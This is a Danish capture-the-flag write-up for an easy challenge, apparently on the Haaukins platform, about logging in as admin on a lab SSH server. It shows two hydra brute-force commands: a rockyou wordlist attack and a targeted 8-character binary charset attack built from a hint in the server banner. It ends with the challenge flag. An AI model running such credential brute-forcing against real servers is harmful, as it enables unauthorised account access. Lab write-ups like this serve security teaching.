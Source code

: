 # Yes Or No Writeup

## Challenge information

Forslået sværhedsgrad: Let

Haaukins API: Ja

Beskrivelse:
En klog tilgang til social engineering er altid væsentlig eller ej?

Måske giver brute force alt hvad vi har brug for.

Lad os se, om du kan logge ind med brugernavnet admin på SSH-serveren på domænet http://sshbrute.com

## Writeup

### We will. We will. Rockyou!
At køre et hydra brute force på sshbrute.com med rockyou.txt og brugernavnet admin giver flag, men tager lang tid:

```bash
hydra -f -t 15 -l admin -P /usr/share/wordlists/rockyou.txt -y ssh://sshbrute.com
```

### Lets be smart about this
Ved at ssh ind på serveren uden at logge ind kan vi se følgende besked:

![sshmessage](sshmessage.png)

Dette er et hint til at koden nok er i binary og er 8 lang.

Vi kan derved brute force op mod ssh serveren med en kode som kun består af 1'er eller 0'er og er 8 lang:

```
hydra -f -t 15 -l admin -x 8:8:10 -y ssh://sshbrute.com
``` 

Dette finder os passwordet:

![smartbrute](smartbrute.png)

Derefter kan vi logge ind og få flaget

```
DDC{b1nARy153V3ryWh3r3}
``` 